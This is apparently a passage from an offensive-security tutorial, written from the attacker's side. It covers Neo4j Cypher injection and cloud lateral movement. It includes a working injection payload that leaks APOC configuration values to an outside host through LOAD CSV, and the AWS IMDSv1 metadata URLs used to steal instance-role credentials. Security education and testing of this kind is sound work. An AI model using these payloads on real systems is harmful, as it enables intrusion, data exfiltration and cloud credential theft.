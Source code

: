 **Injection example:**

```plaintext
' OR 1=1 CALL apoc.config.list() YIELD key, value LOAD CSV FROM 'http://10.0.2.4:8000/?'+key+"="+" A B C" as l RETURN 1 // 
```

**Note:** in Neo4j5 the procedures were moved to APOC extended.

## Lateral movement in the cloud

In cloud providers such as AWS, GCP, and Azure, the virtual machines have a metadata server that can provide credentials for the cloud.

### AWS

In AWS, the address of the metadata server is 169.254.169.254. There's a lot of information there, but we're focused on credentials. If the instance has an instance-profile, that in turn has a role, and we can get its credentials.

Three values are required:

- AWS_ACCESS_KEY_ID
- AWS_SECRET_ACCESS_KEY
- AWS_SESSION_TOKEN

We need to set these values as environment variables or put them under a profile in the .aws/credentials file, and then we can use AWS cli. For example:

```plaintext
> aws sts get-caller-identity 
```

Or

```plaintext
> aws s3 list 
```

AWS exploitation tools such as Pacu can also use these credentials.

AWS has two metadata server modes: IMDSv1 and IMDSv2. IMDSv2 is the more secure version, but the default configuration is that both versions are active.

### IMDSv1

This is the simplest, less secure but very common, version.

As an attacker, all you need to do is to first GET the following URL:

```plaintext
http://169.254.169.254/latest/meta-data/iam/security-credentials/ 
```

The response is technically a list of roles, though typically there is only one role assigned. Once you know the role, GET the following URL:

```plaintext
http://169.254.169.254/latest/meta-data/iam/security-credentials/{role} 
```
